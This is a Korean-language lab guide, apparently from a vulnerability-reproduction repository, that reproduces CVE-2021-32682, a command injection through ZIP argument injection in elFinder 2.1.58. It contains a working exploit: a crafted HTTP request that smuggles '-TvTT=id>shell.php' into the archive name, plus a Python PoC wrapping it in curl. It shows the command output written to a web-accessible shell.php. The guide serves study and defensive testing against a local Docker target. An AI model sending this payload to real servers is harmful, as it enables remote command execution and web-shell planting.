




# elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)
* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.58 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.
## 환경 구성 및 실행
1. 다음 명령어로 elFinder 2.1.58을 실행합니다.
```
docker compose up -d
```
2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.
## 취약점 재현
취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.

`1.txt` 파일을 생성합니다.




해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.



`1.txt`와 `2.zip`을 확인합니다.




다음 HTTP request를 전송합니다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
다음과 같은 `poc.py`를 통해 request를 전송할 수 있습니다.
```
import subprocess

cmd = '''
curl -X GET "http://127.0.0.1:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id%3Eshell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip"   -H "Host: 127.0.0.1:8080"   -H "Accept: application/json, text/javascript, */*; q=0.01"   -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"   -H "X-Requested-With: XMLHttpRequest"   -H "Referer: http://127.0.0.1:8080/"   -H "Accept-Encoding: gzip, deflate"   -H "Accept-Language: en-US,en;q=0.9"   -H "Connection: close"
'''

subprocess.run(cmd, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```
해당 request에는 다음과 같은 정보가 포함되어 있습니다.
* `id>shell.php`로 명령어를 실행하고 출력을 저장합니다.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`을 의미합니다.


request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw`에서 `shell.php`를 확인합니다.



`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


